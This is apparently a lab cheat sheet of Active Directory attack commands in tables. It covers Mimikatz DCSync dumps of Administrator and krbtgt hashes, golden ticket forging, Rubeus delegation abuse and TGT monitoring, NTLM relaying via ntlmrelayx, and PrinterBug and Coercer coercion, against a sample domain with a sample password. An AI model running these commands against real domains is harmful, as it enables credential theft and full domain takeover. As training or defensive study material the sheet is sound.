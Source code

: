 | Command                                                   | Description                                                                     |
| --------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `runas /user:eagle\rocky cmd.exe`                         | Start a new instance of `cmd.exe` as the user `eagle\rocky`.                    |
| `mimikatz.exe`                                            | Tool used to implement the DCsync attack                                        |
| `lsadump::dcsync /domain:eagle.local /user:Administrator` | Command used in `mimikatz` to DCSync and dump the `Administrator` password hash |

## Golden Ticket

| Command                                                                                                              | Description                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`                                                                   | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash                                                       |
| `Get-DomainSID`                                                                                                      | Cmdlet from `PowerView` used to obtain the SID value of the domain.                                                            |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                                                                              | Command line utility in Windows to display the contents of the Kerberos ticket cache.                                          |

## Kerberos Constrained Delegation

| Command                                                                                                                                         | Description                                                                                                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| `Get-NetUser -TrustedToAuth`                                                                                                                    | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain                                            |
| `.\Rubeus.exe hash /password:Slavi123`                                                                                                          | Converts the plaintext password `Slavi123` to its NTLM hash equivalent                                                          |
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                                                                                                           | Used to enter a new powershell remote session on the `dc1` computer                                                             |

## Print Spooler & NTLM Relaying

| Command                                                                            | Description                                                                 |
| ---------------------------------------------------------------------------------- | --------------------------------------------------------------------------- |
| `impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`                         | Used to forward any connections to DC2 and attempt to perform DCsync attack |
| `python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123` | Used to trigger the PrinterBug                                              |
| `RegisterSpoolerRemoteRpcEndPoint`                                                 | Registry key that can be disabled to prevent the PrinterBug                 |

## Coercing Attacks & Unconstrained Delegation

| Command                                                                                    | Description                                                                        |
| ------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------- |
| `Get-NetComputer -Unconstrained \| select samaccountname`                                  | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                                                         | Used to monitor new logons and extract TGTs.                                       |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local`        | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.     |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.            |
